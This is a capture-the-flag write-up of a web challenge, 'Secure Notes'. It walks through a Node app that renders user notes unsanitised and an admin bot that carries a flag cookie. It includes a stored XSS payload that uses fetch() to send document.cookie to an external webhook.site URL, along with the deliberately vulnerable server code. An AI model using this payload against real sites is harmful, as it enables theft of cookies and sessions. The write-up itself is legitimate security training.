










# UM6P_Quals

## ChallengeName: Secure Notes


<strong>challenge discription</strong>




<h3>visiting the challenge on browser</h3>



<h3>Let's check the source code</h3>

<h3>In this indpoint it takes a note without any filtration saving it and return the note link</h3>

```javascript
app.post('/save', (req, res) => {
    if (Object.keys(notes).length > 100)
        notes = {}
    text = req.body.text;
    if (text.length > 1000)
        res.send('Note too long!');
    else {
        uid = uuidv4();
        notes[uid] = text;
        res.send(`note saved successfully, <a href=/notes/${uid}>link</a>.`);
    }
});
```

<h3>The note link was taking us to an indpoint <strong>/notes/[uid]</strong></h3>
<h3>Let's check the indpoint</h3>

```javascript
app.get('/notes/:uid', (req, res) => {
    const { uid } = req.params;
    const uidPattern = /^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[89aAbB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$/;
  
    if (uidPattern.test(uid)) {
        if (uid in notes) {
            html = `
            <table>
              <thead>
                <tr>
                  <th>UID</th>
                  <th>Note</th>
                  <th>Actions</th>
                </tr>
              </thead>
              <tbody>
                <tr>
                  <td>${uid}</td>
                  <td>${notes[uid]}</td>
                  <td>
                    <button onclick="fetch('/report/${uid}').then(response => response.text()).then(data => alert(data)).catch(error => alert(error));">share with admin</button>
                  </td>
                </tr>
              </tbody>
            </table>
          `;
          res.send(html);
        } else {
            res.send('Note not found.');
        }
    } else {
        res.send('Invalid UID.');
    }
});
```

<h3>
So it only print our note without any filteration<br/>
Hmm Let's try some <strong>XSS</strong>
</h3>

<br/>

<br/>
<br/>

<h3>Let's save the Note and visite the click on the link</h3>
<br/>



<h3>It works and there's also a button <strong>share with admin</strong></h3>



<h3>
Let's check the source code again to see how <strong>/report</strong> indpoint works 
</h3>

```javascript
app.get('/report/:uid', (req, res) => {
    if (reports.length > 100)
        reports = []
    const { uid } = req.params;
    const uidPattern = /^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[89aAbB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$/;

    if (uidPattern.test(uid))
    {
        if (reports.indexOf(uid) != -1)
            res.send("this note has already been shared with admin!");
        else
        {
            reportNote(`/notes/${uid}`);
            reports.push(uid);
            res.send("note has been sent to the admin!");
        }
    }
});
```
<h3>It's doing simple checks and then sends the url to a <strong>reportNote</strong> function<br/>So let's check that</h3>

```javascript
FLAG = process.env.FLAG || "akasec{ssss}"

async function reportNote(url) {
    try {
        const browser = await puppeteer.launch({ executablePath: '/usr/bin/google-chrome', headless: "new", args: ['--no-sandbox', '--disable-setuid-sandbox'] });
        const page = await browser.newPage();
  
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost:3000'
        });
        await page.goto(`http://localhost:3000`);
        await page.evaluate((url) => {
            location.href = url;
        }, url);
        await new Promise(resolve => setTimeout(resolve, 5000));
        await browser.close();
    } catch (err) {
        console.log("?:", err);
    }
}
```
<h3>It user <strong>puppeteer</strong>.<br/>
<strong>Puppeteer</strong> is a Node. js library developed by Google that lets you control headless Chrome through the DevTools Protocol.<br/><br/>
Let's break this down to see what this doing exactly<br/>
It set's a <strong>cookie</strong> flag and its value is our flag that is loaded from the <strong>env</strong><br/>
and then visits the url passed passed as argument which is the our Note url<br/>
</h3>


<h3>So we can pass a payload to read the <strong>cookie</strong> and send it to us using http request.</h3>
<h3>First I let's open a <strong>webhook</strong>  that will start listning on our request</h3>



<h3>let's put our payload in a note and <strong>report it to admin</strong></h3>


```javascript
fetch('https://webhook.site/00dab9f6-07c5-4a73-902f-ebc4f97a7eb6', {method: "POST", body: document.cookie})
// Full payload will be like this
<script>
fetch('https://webhook.site/00dab9f6-07c5-4a73-902f-ebc4f97a7eb6', {method: "POST", body: document.cookie})
</script>
```

<br/>
<h3>Save the note and visit it's link you should reseve first post<br/>request in your webhook when the xss executed in your client-side</h3>
<br/>

<br/>
<br/>



<h3>Now let's make admin visit the note by clicking on <strong>share with admin</strong> button</h3>



<h3>and as you can see we recieved our flag</h3>
<hr/>
<h2>The flag <strong>AKASEC{GooD_0LD_BX55}</strong></h2>